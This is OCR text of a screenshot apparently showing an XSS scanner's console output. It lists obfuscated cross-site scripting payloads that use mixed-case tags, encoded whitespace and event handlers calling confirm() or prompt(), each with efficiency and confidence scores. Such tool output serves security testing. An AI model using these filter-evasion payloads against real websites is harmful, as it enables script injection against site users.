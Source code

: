  Progress: 409/1536
 
------------------------------------------------------------
 Payload: <A/+/oNPOinTErENTER%09=%09confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 410/1536
 
------------------------------------------------------------
 Payload: <HtmL%0dONpOinterenTER+=+a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 411/1536
 
------------------------------------------------------------
 Payload: <DeTaIlS/+/onTOGglE%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 412/1536
 
------------------------------------------------------------
 Payload: <HtML%0aOnPOINTeREntER%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 413/1536
 
------------------------------------------------------------
 Payload: <dEtaILS%09oNTOGgLe%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 414/1536
 
------------------------------------------------------------
 Payload: <HTML%09ONpOiNtEREnteR%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 415/1536
 
------------------------------------------------------------
 Payload: <DeTailS%0donTogglE+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 416/1536
 
------------------------------------------------------------
 Payload: <HTmL/+/OnpOINTErEnTER%0d=%0d(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 417/1536
 
------------------------------------------------------------
 Payload: <DEtaIls%0dOnTOGgle%09=%09(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 418/1536
 